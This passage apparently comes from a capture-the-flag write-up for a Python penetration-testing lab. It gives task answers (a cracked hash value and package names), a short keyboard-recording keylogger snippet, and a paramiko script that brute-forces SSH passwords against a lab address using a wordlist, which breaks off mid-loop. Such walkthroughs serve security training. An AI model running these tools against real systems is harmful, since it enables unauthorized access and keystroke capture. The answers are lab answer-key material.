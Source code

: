 #### Using the modified script find the cleartext value for 5030c5bd002de8713fef5daebd597620f5e8bcea31c603dccdfcdf502a57cc60

```bash
python3 hash.py
```

![](<../../.gitbook/assets/Screenshot from 2022-03-19 20-03-47.png>)

{% hint style="success" %}
`redwings`
{% endhint %}

## Task 8 keyloggers

```python
import keyboard
keys = keyboard.record(until='ENTER')
keyboard.play(keys)
```

#### What package installer was used?

{% hint style="success" %}
`pip3`
{% endhint %}

#### What line in this code would you change to stop the result from being printed on the screen?

{% hint style="success" %}
`keyboard.play(keys)`
{% endhint %}

## Task 9 SSH Brute Forcing

```python
import paramiko

target = '10.10.44.151'
username = 'tiffany'
password_file = 'wordlist2.txt'


def ssh_connect(password):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    try:
        ssh.connect(target, port=22, username=username, password=password)
        code = 0
    except paramiko.AuthenticationException:
        code = 1
    ssh.close()
    return code


with open(password_file, 'r') as file:
    for password in file.read().splitlines():
        try:
            if ssh_connect(password) == 0:
                print('password found:', password)
```